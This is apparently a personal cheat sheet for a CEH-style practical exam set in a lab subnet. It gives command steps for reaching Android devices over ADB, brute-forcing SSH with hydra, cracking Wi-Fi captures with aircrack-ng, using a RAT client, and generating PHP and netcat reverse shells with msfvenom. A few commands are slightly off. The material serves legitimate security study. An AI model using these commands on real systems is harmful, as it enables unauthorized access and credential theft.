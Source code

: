 # Finding and Accessing Mobile Devices
1. sudo nmap -p 192.168.0.0/24
2. adb connect <target_ip>:5555
3. adb shell
4. Use ls, cd and pwd to navigate
5. adb pull to get certain files

# Example Question ELF
A mobile device in the 192.168.0.0/24 subnet has malicious files. Obtain the elf files and find the hash of the file with the highest entropy value
1. Refer to #Finding and Accessing Mobile Devices to obtain files
2. After obtaining all files, use entropy tool to determine highest value
3. ent -h OR apt install ent
4. ent <files found> 
    - Determine highest value after scanning all files
5. sha384sum <file>
    - good for determining SHA 384 Hashes

# Encrypted Volumes
1. Use Veracrypt to decrypt the volume
2. Select File... -> Choose a Drive to mount on -> Mount
3. There is normally a password to decrypt. It should be provided somewhere.
4. Go to unlocked Drive, do your task.

# Cracking Hashes
1. Use www.hashes.com

# Remote Access Trojans (RAT)
1. Try to find unusual ports by running
2. nmap -T5 -A -p- <ip> (will take time)
3. Find the unusual port and then go to Windows Box
4. CEH Module 7 Malware Threats -> Trojan Types -> RAT -> Theef
5. Input ip and port and connect
6. Select 'file explorer' to browse through directory

# Hash Tampering
1. Use MD5 Calculator to compare hashes

# Finding files in DVWA
If given a link (http://192.168.0.##:8080/DVWA)
And a path Eg. “C:\wamp64\www\DVWA\hackable\uploads\”
1. Take the tail of the path (\hackable\uploads\) and add it to the end of the link
2. Should show a file directory with target files.

# Analyzing IoT Traffic
1. Use Wireshark and filter by MQTT
2. Finding a message or topic should be in the info section

# Analyzing Wireless Traffic
1. Use aircrack-ng <.cap file>
2. aircrack-ng -b <MAC address> -w '<Password list>' '<.cap file>'
3. Should output the password

# Reverse Shells
1. If asked to perform vulnerability research on a webapp, try using Zap
2. Eg. If scanning DVWA, you'll find file inclusion/file upload vulnerabilities
3. Use metasploit to create a reverse shell
4. msfconsole
5. msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw >exploit.php 
    - Creates a php file with a reverse shell going to localhost:4444
6. >use exploit/multi/handler
    - Handles the exploit and gives shell
7. >set payload php/meterpreter/reverse_tcp
8. Set LHOST <target ip>
9. Upload the created exploit.php file
10. Open a terminal and type run. Put URL into browser and should create a meterpreter session.
11. ls to look for target files

# Reverse Shell Alt Scenario
A target that has remote login and command-line execution and is running Linux. Gain access and find a target file. (subnet is 192.168.0.0/24)
1. nmap -p 22,23,80,3389 192.168.0.0/24
    - Check ssh, telnet, tcp and rdp (in this example, found 192.168.0.100)
2. sudo nmap -sS -sV -p- -O 192.168.0.100
    - Eg. Found open telnet port
3. telnet 192.168.0.100 80 and GET / HTTP/1.0
4. Try using hydra to break weak credentials on ssh
5. hydra -L user.txt -P pass.txt 192.168.0.100 ssh
    - Eg. Found ubuntu user with weak password
6. ssh ubuntu@192.168.0.100
7. telnet 192.168.0.100
8. Once inside, create reverse shell with metasploit
    - msfvenom -p cmd/unix/reverse_netcat LHOST=<my_ip> LPORT=4444
9. Listen on port 4444 from own machine
    - nc -nvlp 4444
10. Once shell is obtained, find file with the following command:
    - find . -name target.txt